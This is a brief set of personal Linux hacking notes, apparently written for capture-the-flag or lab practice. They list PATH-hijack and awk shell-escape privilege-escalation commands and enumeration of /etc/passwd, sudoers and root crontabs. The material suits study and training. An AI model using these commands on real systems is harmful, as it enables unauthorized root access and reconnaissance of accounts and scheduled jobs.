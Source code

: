 ```yaml
---
tags: 🔻 🔻/OS/linux
aliases: Hacking Notes
---
```


# Linux 

path based  
  
cd /tmp  
echo "/bin/bash" > ifconfig  
chmod 777 ifconfig  
export PATH=/tmp:$PATH  
/opt/ignite  
cd /root  
ls  
cat final.txt  
    

    
  
curl -X POST *http://blablabla*
  
  
/home/kyle/script/test  
echo "awk 'BEGIN {system(\\"/bin/bash\\")}'" > test


# basic enumeration
  
cat /etc/issue; 
cat /etc/\*-release; 
cat /etc/lsb-release; 
cat /etc/redhat-release;  
  

## Applications & Services

 
  
Sensitive info search  
  
w  
last  
cat /etc/passwd | cut -d: -f1 # List of users  
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}' # List of super users  
awk -F: '($3 == "0") {print}' /etc/passwd # List of super users  
cat /etc/sudoers  
sudo -l

# Cron
#cron #privesc

crontab -l  
ls -alh /var/spool/cron  
ls -al /etc/ | grep cron  
ls -al /etc/cron\*  
cat /etc/cron\*  
cat /etc/at.allow  
cat /etc/at.deny  
cat /etc/cron.allow  
cat /etc/cron.deny  
cat /etc/crontab  
cat /etc/anacrontab  
cat /var/spool/cron/crontabs/root